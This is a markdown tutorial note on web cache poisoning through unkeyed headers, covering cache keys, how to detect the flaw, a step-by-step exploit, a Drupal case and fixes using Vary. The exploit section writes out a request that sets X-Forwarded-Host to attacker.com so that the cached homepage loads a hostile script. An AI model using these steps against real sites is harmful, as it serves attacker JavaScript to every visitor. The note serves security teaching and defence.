

# 27.02 — Cache Keys and Unkeyed Inputs

## What is it?
To understand Web Cache Poisoning, you must deeply understand the concept of a **Cache Key**. 

When a Cache Server receives an HTTP request, it needs to know if it already has a saved copy of the requested resource. To do this, it takes specific parts of the HTTP request and hashes them together to create a unique fingerprint. This fingerprint is the **Cache Key**.

Usually, the default Cache Key consists of exactly two things:
1. The requested URL path (e.g., `/images/logo.png`)
2. The Host header (e.g., `www.example.com`)

The Cache Server ignores *everything else* in the request. It ignores the `User-Agent`, it ignores the `Cookie`, it ignores the `Accept-Language`, and it ignores custom headers like `X-Forwarded-Host`. These ignored components are called **Unkeyed Inputs**.

**The Vulnerability:**
If a backend application uses an *Unkeyed Input* to dynamically generate the HTML page, a hacker can manipulate that Unkeyed Input to inject a malicious payload. Because the input is "unkeyed," the Cache Server doesn't notice the difference. It thinks the hacker's request is identical to a normal user's request. Therefore, it saves the hacker's malicious HTML under the normal Cache Key, serving it to everyone.

Think of it like a coat check at a club. The coat check attendant (Cache) gives you a ticket based *only* on your name (The Cache Key). They don't care what color shirt you are wearing (Unkeyed Input). You hand them a coat with a ticking bomb inside, wearing a red shirt. They label it "John's Coat". Later, a normal guy named John comes to the desk wearing a blue shirt. The attendant looks at the name, ignores the shirt color, and hands normal John the ticking bomb.

## ASCII Diagram

## How to Find It
- **Manual steps:**
  1. Add a cachebuster to your URL to ensure you get a fresh response from the backend (e.g., `GET /?cb=1234`).
  2. Inject various unkeyed headers: `X-Forwarded-Host`, `X-Host`, `X-Forwarded-Scheme`, `X-Original-URL`.
  3. Look at the HTTP response body. Does your injected text appear anywhere in the HTML? (e.g., in a `<link>` tag, a `<script>` src, or a redirect URL).
  4. If your text is reflected, remove your injected header, keep the same cachebuster `?cb=1234`, and send the request again.
  5. If the response *still* contains your injected text, you have successfully poisoned the cache for the key `/?cb=1234`.

- **Tool commands with flags explained:**
  **Param Miner:** Use Param Miner to automatically discover Unkeyed Inputs.
  - Right-click request -> `Extensions` -> `Param Miner` -> `Guess headers`.
  - Look at the "Extender -> Output" or the "Issues" tab. Param Miner will alert you: "Unkeyed header `X-Forwarded-Host` found on `/index`".

## How to Exploit It
- **Step-by-step walkthrough:**
  1. **Identify Unkeyed Reflection:** You find that `X-Forwarded-Host: attacker.com` reflects inside a `<script src="https://[REFLECTION]/app.js">`.
  2. **Set up the Trap:** Host a malicious `app.js` file on your server (`attacker.com`).
  3. **Poison the Live Cache:** Remove your `?cb=1234` cachebuster. Send the payload to the actual live homepage:
     `GET / HTTP/1.1`
     `Host: target.com`
     `X-Forwarded-Host: attacker.com`
  4. **The Race:** You might have to send this request repeatedly until the previous cache expires (look at the `Age` header dropping to `0`, or `X-Cache: miss`).
  5. **Victory:** Once you hit the backend and your payload is cached, load `https://target.com/` in your regular browser. If your script executes, the cache is poisoned.

## Real-World Example
A classic example is the Drupal 7/8 Cache Poisoning vulnerability. Drupal used the unkeyed `X-Forwarded-Host` header to generate the URLs for critical CSS and JavaScript files. Attackers sent requests to Drupal sites containing `X-Forwarded-Host: attacker.com`. The Varnish cache in front of Drupal ignored the header but saved the resulting HTML. The cached HTML now pointed all its `<script>` and `<link>` tags to `attacker.com`. When legitimate users visited the Drupal site, their browsers downloaded and executed malicious JavaScript from the attacker's server, leading to mass website compromises.

## How to Fix It
- **Developer remediation:**
  1. **Add to Cache Key (Vary):** If you absolutely must use an HTTP header to generate content, tell the cache server to include that header in the Cache Key using the `Vary` header. (e.g., Backend replies with `Vary: X-Forwarded-Host`). Now, the cache will save separate copies for different `X-Forwarded-Host` values.
  2. **Ignore the Header:** The best fix is to stop using unkeyed inputs entirely. Use the strictly validated `Host` header to build URLs, and discard `X-Forwarded-Host` unless you explicitly trust the proxy that set it.

## Chaining Opportunities
- This vuln + [[03 - Cache Poisoning via X-Forwarded-Host]] → A specific implementation of exploiting unkeyed inputs.

## Related Notes
- [[01 - What is Web Caching?]]
- [[10 - Defense — Cache Key Configuration, Vary Header]]
